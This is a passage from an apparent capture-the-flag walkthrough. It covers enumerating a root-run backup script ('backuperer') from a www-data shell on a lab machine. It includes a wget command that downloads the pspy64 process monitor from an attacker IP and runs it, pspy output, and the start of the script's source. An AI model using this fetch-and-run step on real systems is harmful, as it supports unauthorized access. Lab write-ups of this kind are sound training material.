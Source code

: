 So the `test` file looks like a log for a service called `backuperer`.

The `error` file looks like the matching error log for the service. We need to identify where this script is running from.

### PsPy64

We can use the `PsPy64` script to see what is running live on the system. This will give us insight to this `backuperer` script, and where it might be located.

Again, copy it to the system with `wget http://10.10.14.34/pspy64`, and make it executable with `chmod +x pspy64`. We can kick it off with `./pspy64`.

> Make sure you've elevated this to a good `bash` shell, with tab completion, before running this. It'll be much easier to just `CTRL-C` when your done, then having to launch a whole new shell as `www-data`.

After a few minutes, we get the below result:

```
2020/01/23 13:48:44 CMD: UID=0    PID=4005   | /bin/bash /usr/sbin/backuperer 
2020/01/23 13:48:44 CMD: UID=0    PID=4009   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4010   | 
2020/01/23 13:48:44 CMD: UID=0    PID=4024   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4027   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4028   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4029   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4034   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4057   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4059   | 
2020/01/23 13:48:44 CMD: UID=0    PID=4060   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4070   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4073   | /usr/bin/printf - 
2020/01/23 13:48:44 CMD: UID=0    PID=4081   | 
2020/01/23 13:48:44 CMD: UID=0    PID=4086   | /bin/sleep 30 
2020/01/23 13:48:44 CMD: UID=0    PID=4085   | /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.dc20153ea96ef944e343519b7a36fe8c873b3905 /var/www/html 
2020/01/23 13:48:44 CMD: UID=1000 PID=4089   | /bin/tar -zcvf /var/tmp/.dc20153ea96ef944e343519b7a36fe8c873b3905 /var/www/html
```

So we know the script is running as `root` from `/usr/sbin/backuperer`. Let's check it out.

### Check out `backuperer` script

Here's the contents of the script:

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
```